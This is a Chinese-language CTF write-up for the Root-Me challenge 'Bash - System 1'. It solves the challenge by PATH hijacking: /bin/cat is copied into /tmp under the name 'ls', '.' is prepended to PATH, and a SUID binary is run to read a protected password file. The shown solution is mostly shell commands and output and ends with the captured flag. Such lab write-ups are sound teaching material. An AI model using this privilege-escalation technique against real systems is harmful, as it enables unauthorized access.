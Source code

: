 # CTF-Solving-Reports
　[[Root-Me](https://www.root-me.org/)] [[App-Script](https://www.root-me.org/en/Challenges/App-Script/)] [[Bash - System 1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2705/)]

------

## 考察点

 - SUID权限的可执行文件利用
 - 环境变量 PATH 中含有当前路径 "." 造成的路径胁持
 - 文件权限的传递方式

## 解题思路

> 先直接用脚本讲解正确的解题步骤，后面再解释这个思路是怎么来的）

```shell
# (1) 登入靶机后，首先检查当前的目录环境（当前用户、工作目录、拥有文件、权限等）
app-script-ch11@challenge02:~$ pwd
/challenge/app-script/ch11

# (2) 发现一个具有SUID权限的可执行脚本 ch11、一个只读的C源码文件 ch11.c、一个无法读写隐藏文件 .passwd
#     由此可以猜测最终目标就是要通过某种途径查看 .passwd 的内容
app-script-ch11@challenge02:~$ ll
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 ./
drwxr-xr-x 17 root                    root                    4096 Mar 17  2018 ../
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11*
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

# (3) 查看C源码，其功能就是调用 ls 系统命令，还很贴心地注释了 gcc 编译命令
app-script-ch11@challenge02:~$ more ch11.c
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void) 
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}

# (4) 尝试执行 gcc 编译，发现没有权限在当前目录编译
app-script-ch11@challenge02:~$ gcc -m32 -o ch11 ch11.c
Cannot create temporary file in ./: Permission denied
Aborted

# (5) 直接执行 ch11 脚本，通过其输出可以知道这就是从 ch11.c 编译而来的
#     而且这个脚本还具备 SUID 权限，其 owner 为 app-script-ch11-cracked
#     在前面已经知道，.passwd 文件也是同一个 owner，且只有 owner 可读
#     因此到这里就可以明确，最终的目标就是利用 ch11 脚本的 SUID 位特性进行提取查看 .passwd 文件
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd

# -----------------------------------------------------------
# (?) 这里可能有些同学认为自己“找到了解题方法”：
#         修改 ch11.c 调用的系统命令，如改成 "cat /challenge/app-script/ch11/.passwd"，然后重新编译执行就能达成目的
#         而 ch11.c 是只读的，问题就变成怎么编辑 ch11.c
#
#     这思路其实是错的，这也是出题人希望误导的方向。至于为什么后面再解释，暂时不展开。
#
#     这题的解法其实不是修改 ch11.c 的命令，二是修改其所调用的命令 ls 的语义为 cat 来达到目的
#     简单来说，就是让 ch11 以为自己执行的是 ls ，实际上执行的是 cat（胁持）
# -----------------------------------------------------------

# (6) 需要知道，linux 执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#     这里查看一下当前环境变量 PATH 的内容
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (7) 列出的目录大部分都没有权限查看，但最终在 /bin 目录找到了 ls 和 cat 两个命令的脚本文件
#     当然用直接用 find / -name "cat" 命令找也是可以的，会更快
#     可以发现 ls 和 cat 脚本对所有用户都是可读的，这就为接下来的伪造命令创造了条件
#     我们的目的是：把 cat 伪装成 ls
#     但因为不具备 /bin 目录的写权限，因此不能直接在这里操作
#     但又因为有读权限，所以可以复制去其他我们有写权限的目录操作
app-script-ch11@challenge02:~$ cd /bin
app-script-ch11@challenge02:/bin$ ll | grep -w 'ls'
-rwxr-xr-x  1 root root  108708 Mar 10  2016 ls*
app-script-ch11@challenge02:/bin$ ll | grep -w 'cat'
-rwxr-xr-x  1 root root   46884 Mar 10  2016 cat*

# (8) 很自然就可以想到 /tmp 临时目录，查一下，确实具有写权限
app-script-ch11@challenge02:/bin$ cd /
app-script-ch11@challenge02:/$ ll | grep -w 'tmp'
drwxrwx-wt  20 root root 2166784 Dec 30 13:40 tmp/

# (9) 但是因为不具备对 /tmp 目录的读权限，为了方便操作，在 /tmp 目录下再建一个子目录 exp，权限设为 777
app-script-ch11@challenge02:/$ cd /tmp
app-script-ch11@challenge02:/tmp$ mkdir exp
app-script-ch11@challenge02:/tmp$ chmod 777 exp
app-script-ch11@challenge02:/tmp$ cd exp

# (10) 把 /bin/cat 脚本复制到 /tmp/exp 目录下，并重命名为 ls ， 至此伪装就完成了
app-script-ch11@challenge02:/tmp/exp$ cp /bin/cat .
app-script-ch11@challenge02:/tmp/exp$ mv cat ls
app-script-ch11@challenge02:/tmp/exp$ ll
total 2172
drwxrwxrwx  2 app-script-ch11 app-script-ch11    4096 Dec 30 13:41 ./
drwxrwx-wt 21 root            root            2166784 Dec 30 13:41 ../
-rwxr-x---  1 app-script-ch11 app-script-ch11   46884 Dec 30 13:41 ls*

# (11) 前面说过，linux 在执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#      而 ~/ch11 脚本所调用的系统命令 ls 在 /bin 目录下
#      为了达到路径胁持的目的，可以把当前目录 "." 添加到环境变量 PATH 的最前面
#      使得 linux 在搜索命令脚本的时候，先从当前目录下找
#      而在当前目录 /tmp/exp 下，我们刚刚创造了一个伪装成 ls 的 cat 脚本
app-script-ch11@challenge02:/tmp/exp$ export PATH=.:$PATH
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (12) 把当前目录 "." 添加到环境变量 PATH 后，在当前目录执行 ll 命令已经不起作用了
#      原因是 ll 是命令 ls -la 的缩写别名，因此会连带不生效
app-script-ch11@challenge02:/tmp/exp$ ll
ls: unrecognized option '--color=auto'
Try 'ls --help' for more information.

# (13) 最后，只需要 cd 到伪装成 ls 的 cat 脚本所在的目录下（即使得当前目录变成  /tmp/exp ）
#      再直接调用工作目录下的 ch11 脚本，即可通过 路径胁持+伪装命令 达到提权目的
#      最终我们得到了密码，完成挑战
app-script-ch11@challenge02:/tmp/exp$ ~/ch11
!oPe96a/.s8d5
```


## 解题误区

看了评论区，有大部分同学采用了类似这样的一个错误的做法：

1. 把 ch11.c 复制到 /tmp 目录，然后通过 chmod 赋予自己对 ch11.c 的写权限
2. 用 vim 把 system 命令的 ls 修改成 cat，在 /tmp 目录重新 gcc 编译得到新的 ch11 脚本
3. 通过 chmod u+s  赋予 ch11 脚本 SUID 权限，运行 ch11 脚本，最后报错 `Permission denied` 就做不下去了

为什么这样做无法提权？其实看一下 /tmp 目录 gcc 编译出来的  ch11 脚本的 owner 就知道了：

- 新编译的 ch11 脚本的 owner 是当前用户 app-script-ch11
- 而原本在 app-script-ch11 工作目录的 ch11 脚本的 owner 是 app-script-ch11-cracked

换言之新编译的 ch11 脚本的 SUID 位还是 app-script-ch11 自身，是没有办法利用 SUID 的特性在执行脚本的过程中提权为 app-script-ch11-cracked 的。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-Script/01%20%5B5P%5D%20Bash%20%E2%80%93%20System%201/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2006~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
